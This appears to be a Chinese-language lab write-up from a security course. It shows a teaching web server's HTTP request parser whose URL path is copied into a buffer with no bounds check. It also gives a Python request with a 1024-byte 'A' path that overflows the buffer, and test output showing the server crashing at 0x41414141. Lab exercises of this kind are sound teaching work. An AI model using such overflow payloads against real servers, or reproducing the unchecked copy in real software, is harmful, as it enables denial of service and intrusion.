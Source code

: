 ``` c
const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)
{
    static char buf[8192];      /* static variables are not on the stack */
    char *sp1, *sp2, *qp, *envp = env;
    //  ... ... 
    if (http_read_line(fd, buf, sizeof(buf)) < 0)
        return "Socket IO error";

    /* Parse request like "GET /foo.html HTTP/1.0" */
    sp1 = strchr(buf, ' ');
    if (!sp1)
        return "Cannot parse HTTP request (1)";
    *sp1 = '\0';
    sp1++;
    if (*sp1 != '/')
        return "Bad request path";
    sp2 = strchr(sp1, ' ');
    if (!sp2)
        return "Cannot parse HTTP request (2)";
    *sp2 = '\0';
    sp2++;
    //  ... ...
    /* decode URL escape sequences in the requested path into reqpath */
    url_decode(reqpath, sp1);
    envp += sprintf(envp, "REQUEST_URI=%s", reqpath) + 1;
    //  ... ...
}
```

之前发现缓冲区有1024字节，我们就令请求路径超过1024字节。

``` python
 req =   "GET /" + 'A' * 1024 + " HTTP/1.0\r\n" + \
            "\r\n"
```
将攻击脚本复制两份，命名为`exploit-2a.py`和`exploit-2b.py`，并用`make check-crash`来验证是否导致程序崩溃。

``` sh
$ make check-crash
./check-bin.sh
./check-part2.sh zook-exstack.conf ./exploit-2a.py
./check-part2.sh: line 8:  4398 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4417  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4417  +++ killed by SIGSEGV +++
PASS ./exploit-2a.py
./check-part2.sh zook-exstack.conf ./exploit-2b.py
./check-part2.sh: line 8:  4423 Terminated              strace -f -e none -o "$STRACELOG" ./clean-env.sh ./zookld $1 &> /dev/null
4442  --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
4442  +++ killed by SIGSEGV +++
PASS ./exploit-2b.py
```
